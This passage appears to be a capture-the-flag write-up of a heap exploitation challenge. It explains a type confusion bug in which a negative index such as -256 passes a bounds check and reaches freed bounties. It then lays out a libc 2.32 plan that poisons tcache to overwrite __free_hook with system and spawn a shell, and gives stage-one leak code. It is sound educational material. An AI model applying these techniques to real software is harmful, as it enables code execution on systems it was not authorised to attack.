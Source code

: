 2 - Type confusion bug `edit_bounty(uint8_t i)`, because originally, this function is given an `int` as argument:

```
  int idx;
  ...
  case 3:
      printf("Choose the bounty to edit\n>> ");
      res = scanf("%d", &idx);
      getchar();
      if (idx < nbounties) {
          edit_bounty(idx);
      } else {
          puts("This bounty doesn't exist");
      }
      if (!res) exit(EXIT_FAILURE);
      break;
```
There's a simple check whether `idx < nbounties`, but if we give `-256` which is `0xFFFFFFFFFFFFFF00`, the check still passes, but the actual made call is `edit_bounty(0)`; this allows to modify bounty `0` even if it is freed. We can do the same with indexes -255, -254, ...etc to reach the other freed bounties.


## Exploit Analysis
From the primitives we got and the libc 2.32 version, we can derive a fairly common exploitation plan:
- Allocating and freeing some chunk into tcache, and get a heap pointer leak to bypass safe linking.
- Allocating and freeing some chunk into unsorted bin, and get a libc main_arena pointer.
- Poisoning the **fd** pointer of chunk in tcache, and make it point to **__free_hook** in libc, and then overwrite it with **system** address.
- Allocate a chunk with description **"/bin/sh\x00"** and get a shell.

## Stage 1: Leak a heap pointer
This is an easy step, we allocate, free and display:
```
  add_bounty("2", "abcd", "b"*24)
  free_bounty()
  
  resp = edit_bounty_s1(-256) # Leaks the mangled_fd of container chunk + heap leak + the description's free chunk's mangled_fd(useless) 
  
  mangled_fd_1 = int(resp.split(b" ")[11])
  mangled_heap = u64(leak.split(b'\n')[2] +  b"\x00\x00\x00") # PAD and decode
  heap_addr = mangled_heap >> 12 # or multiply with 0x10 ** 3 to restore the full heap address
  
  edit_bounty_s2(mangled_fd_1, p64(mangled_heap) + b"a"*16) # restore the freed chunk's data to avoid crashes

```
